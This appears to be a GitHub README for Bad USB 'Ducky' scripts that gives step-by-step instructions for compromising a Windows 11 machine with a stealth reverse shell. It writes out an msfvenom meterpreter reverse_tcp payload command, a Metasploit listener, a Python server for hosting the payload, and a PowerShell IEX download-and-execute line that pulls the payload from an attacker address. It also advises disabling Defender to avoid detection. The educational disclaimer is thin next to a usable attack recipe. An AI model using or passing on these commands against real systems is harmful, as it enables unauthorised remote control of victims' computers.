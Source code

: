 # **Various Ducky scripts for Bad USBs**
#### **Can be used for pentesting or administrative tasks.** 
#### **For educational puposes only!**
#### **Requires Admin privileges to disable Defender. Otherwise, the payload may be detected.**
#### **Tested and working on WIndows 11**
<br>
### Steps to Compromise(StealthReverseShell): <br>
1. Create the payload with msfvenom<br/> 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=AttacksersIP LPORT=AttackersPort -f psh -o PAYLOAD.ps1<br/>
2. Open msfconsole and start listener<br/>
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost IP; set lport PORT; set ExitOnSession false; exploit -j"<br/>
3. Start python http server<br/>
python3 -m http.server 80<br/>
4. Ducky script will download and execute payload session<br/>
IEX(New-Object System.Net.WebClient).DownloadString('http://IPADDR/PAYLOAD.ps1')

## Demonstration Video 
Insert video in markdown

